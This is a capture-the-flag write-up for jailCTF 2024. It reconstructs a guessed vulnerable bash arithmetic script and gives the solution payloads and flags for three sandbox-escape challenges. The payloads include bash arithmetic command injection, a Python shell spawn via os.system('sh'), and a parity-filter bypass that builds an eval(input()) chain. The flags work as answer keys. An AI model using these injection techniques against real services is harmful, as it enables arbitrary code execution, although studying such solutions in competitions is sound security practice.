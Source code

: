 # jailCTF 2024

## blind-calc

The source code probably looks like this

```shell
read -p "Enter math > " expr
a=$(( \
expr \
))
echo $a
```

ref: https://www.nccgroup.com/us/research-blog/shell-arithmetic-expansion-and-evaluation-abuse/

**tl;dr:** `arr[$(COMMAND)]`

<details>
  <summary>FLAG</summary>
  <tt>jail{blind-calc_9c701e8c09f6cc0edd6}</tt>
</details>

## filter'd

```python
a=input;f(a())
M=999;f(a())
__import__('os').system('sh')
```

<details>
  <summary>FLAG</summary>
  <tt>jail{can_you_repeat_that_for_me?_aacb7144d2c}</tt>
</details>

## parity 1

The input string's ascii value must be even, odd, even, odd,....

Ultimately, we want to build `eval("eval(input()")`. Because the ascii value of "eval" is odd, even, odd, even.

The table lists import elements we can use to build the exploitation.

| char          | ord%2 |
| ------------- | ----- |
| `(`           | 0     |
| `)`           | 1     |
| `tab` or `\t` | 1     |
| `"`           | 0     |
| ` `           | 0     |
| `'`           | 1     |

And there are some Python syntax that allow us to do so.

- String concat: `"cat"'dog'` return `"catdog"`

- In the eval's input string:
  
  - Allowing tab and space inside parentheses
  
  - Allowing tab and space between funtion name and parentheses
  
  - Allowing tab and space in the start.

After some painful process, I construct a string that can let us execute arbitrary python code:

` eval\t(\' eval\' \'(\'"i"\'n\' + \'p\'"u"\'t\' \'(\'")"\' ) \' )`

<details>
  <summary>FLAG</summary>
  <tt>jail{parity_41f5812e8c0cd9}</tt>
</details>

## SUS-Calculator
